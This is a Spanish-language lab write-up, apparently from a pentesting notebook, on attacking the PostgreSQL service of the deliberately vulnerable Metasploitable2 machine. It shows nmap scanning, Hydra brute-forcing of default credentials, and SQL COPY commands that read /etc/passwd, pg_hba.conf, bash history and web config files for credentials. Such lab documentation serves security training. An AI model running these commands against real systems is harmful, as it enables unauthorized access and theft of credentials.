 # 📌 Explotación del servicio PostgreSQL en Metasploitable2

## 🎯 Objetivo
Explotar el servicio PostgreSQL expuesto en la máquina Metasploitable2, enumerar la base de datos, obtener información sensible y documentar la extracción de datos como lo haría un pentester real.

---

## 1️⃣ Escaneo inicial con Nmap
Realizamos un escaneo para detectar puertos abiertos y versiones de servicios:

```bash
nmap -sV 192.168.56.102
```

**Salida consola:**

```arduino
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
```

💡 PostgreSQL está escuchando en el puerto 5432 y en una versión antigua (8.3), lo que puede permitir configuraciones débiles y accesos no autenticados o con credenciales por defecto.

## 2️⃣ Conexión al servicio

Probamos la conexión con el cliente psql de PostgreSQL desde Kali:

```bash
psql -h 192.168.56.102 -U postgres
```

### Para averiguar la contraseña, realizamos ataques de fuerza bruta con la herramienta **Hydra**:

```bash
hydra -L /usr/share/wordlists/metasploit/postgres_default_user.txt \
     -P /usr/share/wordlists/rockyou.txt \
     192.168.56.102 postgres
```

Contraseña probada: postgres (credencial por defecto).

✅ Conexión exitosa.

## 3️⃣ Enumeración de bases de datos

En versiones modernas de PostgreSQL, usaríamos \l, pero en 8.3 puede dar error por columnas inexistentes. Usamos:

```sql
SELECT datname FROM pg_database;
```

**Salida consola:**

datname
----------
postgres
template0
template1
(3 filas)

## 4️⃣ Conexión a cada base de datos

Nos conectamos a la base de datos postgres (la única de usuario real):

```sql
\c postgres
```

## 5️⃣ Enumeración de tablas

Listamos las tablas disponibles:

```sql
\dt
```

**Salida consola:**

Esquema |  Nombre   | Tipo  |  Dueño
--------+-----------+-------+----------
public  | cmd_exec  | tabla | postgres

💡 En este caso, la tabla cmd_exec fue creada en intentos anteriores para ejecutar comandos, pero la versión 8.3 no soporta COPY ... FROM PROGRAM.

## 6️⃣ Búsqueda de tablas sensibles

Intentamos encontrar tablas como users, accounts, credentials:

```sql
SELECT * FROM users LIMIT 10;
```

**Resultado:**

```vbnet
ERROR: relation "users" does not exist
```

No hay tabla users en esta base de datos.

## 7️⃣ Intento de lectura de archivos del sistema

PostgreSQL permite (si el usuario tiene permisos) leer archivos locales usando COPY ... FROM.

Probamos con /etc/passwd:

```sql
CREATE TABLE passwd(content text);
COPY passwd FROM '/etc/passwd';
SELECT * FROM passwd;
```

**Salida:**

```ruby
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...
```

✅ Éxito: Se ha leído el archivo /etc/passwd.

## 8️⃣ Guardar la información en Kali

Como pentester real, almacenamos esta información en nuestra máquina atacante para análisis posterior:

```bash
psql -h 192.168.56.102 -U postgres -d postgres -c "COPY passwd FROM '/etc/passwd'; SELECT * FROM passwd;" > ~/Pentesting/Metasploitable2/10-postgresql/etc_passwd.txt
```

Esto crea el archivo:

```bash
~/Pentesting/Metasploitable2/10-postgresql/etc_passwd.txt
```

Contiene todos los usuarios del sistema víctima.


## Analizar /etc/passwd

Ya hemos extraído el contenido de /etc/passwd.
Como pentester, el objetivo ahora es encontrar usuarios que tengan una shell de login válida (normalmente /bin/bash o /bin/sh) para intentar acceso interactivo.

Ejemplo de filtrado rápido en Kali:

```bash
grep "/bin/bash" ~/Pentesting/Metasploitable2/10-postgresql/etc_passwd.txt
```

**Salida:**

```ruby
root:x:0:0:root:/root:/bin/bash
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
javi3r:x:1003:1003::/home/javi3r:/bin/bash
pentester:x:1004:1004::/home/pentester:/bin/bash
```
💡 Objetivo: Intentar obtener las contraseñas de estos usuarios.

## Extraer hashes de contraseñas

/etc/passwd no contiene los hashes, solo define usuarios y rutas.
Para obtener los hashes reales, necesitamos leer /etc/shadow desde PostgreSQL.

Intento en la base de datos:

📌 Camino alternativo cuando /etc/shadow está protegido

1️⃣ Enumerar archivos accesibles como postgres

Aunque /etc/shadow está protegido, otros archivos sensibles podrían no estarlo.
Ejemplo en PostgreSQL:

```sql
CREATE TABLE test(content text);
COPY test FROM '/etc/postgresql/8.3/main/pg_hba.conf';
SELECT * FROM test;
```

Este archivo define métodos de autenticación y puede dar pistas de otros usuarios con acceso.

También podemos intentar:

```sql
COPY test FROM '/var/lib/postgresql/.bash_history';
SELECT * FROM test;
```

2️⃣ Buscar archivos de configuración con credenciales

Los administradores a veces dejan credenciales en texto plano en scripts o config files.
Podemos leer rutas como:

```sql
COPY test FROM '/var/www/html/config.php';
COPY test FROM '/var/www/html/wp-config.php';
```



